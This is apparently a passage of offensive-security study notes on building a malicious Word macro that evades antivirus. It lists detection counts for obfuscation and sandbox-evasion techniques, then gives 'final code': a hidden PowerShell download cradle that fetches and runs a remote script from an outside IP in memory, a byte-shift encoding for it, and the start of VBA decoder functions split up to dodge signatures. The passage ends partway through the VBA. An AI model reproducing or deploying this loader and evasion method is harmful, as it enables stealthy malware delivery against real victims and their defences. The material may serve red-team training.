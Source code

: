    📌 **Result:**
    
    - Only **1 AV** detects.
    - Achieved **very low detection** using obfuscation + heuristics checks.

---

### **Final Takeaways**

1. **Direct PowerShell execution via Shell** → highly detectable.
2. **Dechaining via WMI** → reduces suspicious parent-child relation.
3. **String Obfuscation**:
    - Simple reversal helps but leaves traces.
    - Custom Caesar cipher encryption is stronger.
4. **Heuristic Evasion**:
    - Detect sandboxing by checking file properties or environment.
    - Exit early to avoid triggering behavior analysis.
5. **Detection Results**:
    - Initial Shell method: 8 products.
    - WMI de-chained: 7 products.
    - StrReverse obfuscation: 4 products.
    - Caesar cipher obfuscation: 2 products.
    - Heuristic check (file name): 1 product.

# Final code

1. **Payload Generation**
    
    writing a **PowerShell download cradle**
    
    ```powershell
    $payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    ```
    
    This command downloads and executes remote powershell payloads in memory → no file drop.
    
2. **Encryption / Encoding Scheme**
    
    ```visual-basic
    $output = ""
    $payload.ToCharArray() | %{
        $output += ([byte][char]$_ + 17).ToString("000")
    }
    $output | clip
    ```
3. Make sure word file name is `runner.doc` 
    
4. **VBA code**
    
    The VBA macros are broken into small functions to avoid static signature detection.
    
    ```visual-basic
    ' ========================
    ' Helper Functions
    ' ========================
    Function Pears(Beets)
        Pears = Chr(Beets - 17)         ' Reverse the +17 shift
    End Function
    